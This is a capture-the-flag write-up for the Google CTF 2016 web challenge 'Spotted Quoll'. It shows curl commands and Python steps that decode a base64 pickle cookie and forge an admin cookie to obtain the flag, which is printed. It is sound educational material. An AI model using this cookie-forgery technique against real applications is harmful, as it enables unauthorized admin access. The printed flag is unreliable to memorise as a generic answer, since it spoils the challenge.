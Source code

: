 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/05/02/google-ctf-2016-spotted-quoll/
date: 2016-05-02T02:33:29+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Spotted Quoll

You can find the file `/getCookie` in html, so try to GET:

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/getCookie
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Date: Sun, 01 May 2016 06:38:21 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Expires: Sun, 01 May 2016 06:38:21 GMT
```

A mysterious cookie is given.
The string `obsoletePickle` seems something like python's `pickle`.
This is true, you can decode this as pickle after base64. (this are a word `obsolete`, but you can decode not only Python 2.x, also Python 3.x).

``` python
>>> pickle.loads(base64.b64decode(b'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

Due to the error message with above cookie is `https://spotted-quoll.ctfcompetition.com/#err=user_not_found`, lets try send a cookie baked with:

```
>>> base64.b64encode(pickle.dumps({'user': 'admin', 'subtle': 'hint', 'python': 'pickles'}, protocol=0))
b'KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4='
```

To avoid such a error `https://spotted-quoll.ctfcompetition.com/#err=unsupported%20pickle%20protocol%3A%203`, you should specify the pickle-protocol as $0$.

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/admin --cookie obsoletePickle=KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4=
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:53:33 GMT
Server: Google Frontend
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```
